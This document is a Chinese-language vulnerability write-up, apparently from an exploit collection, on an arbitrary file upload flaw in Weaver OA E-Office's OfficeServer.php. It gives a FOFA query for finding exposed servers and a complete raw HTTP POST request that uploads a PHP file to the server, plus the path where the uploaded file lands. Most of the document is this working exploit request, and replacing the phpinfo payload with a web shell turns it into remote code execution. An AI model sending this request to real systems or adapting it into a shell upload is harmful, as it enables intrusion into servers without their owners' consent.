 # 泛微OA E-Office OfficeServer.php 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office OfficeServer.php 存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器敏感信息

## 漏洞影响

```
泛微OA E-Office
```

## FOFA

```
"eoffice10"
```

## 漏洞复现

登录页面

![image-20221008102546649](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210081025897.png)

验证POC

```
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 990
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLpoiBFy4ANA8daew
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FileData";filename="test.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FormData"

{'USERNAME':'admin','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'}
------WebKitFormBoundaryLpoiBFy4ANA8daew--
```

![image-20221008102607520](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210081026579.png)

文件上传位置

```
/eoffice10/server/public/iWebOffice2015/Document/test.php
```

![image-20221008102621829](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210081026917.png)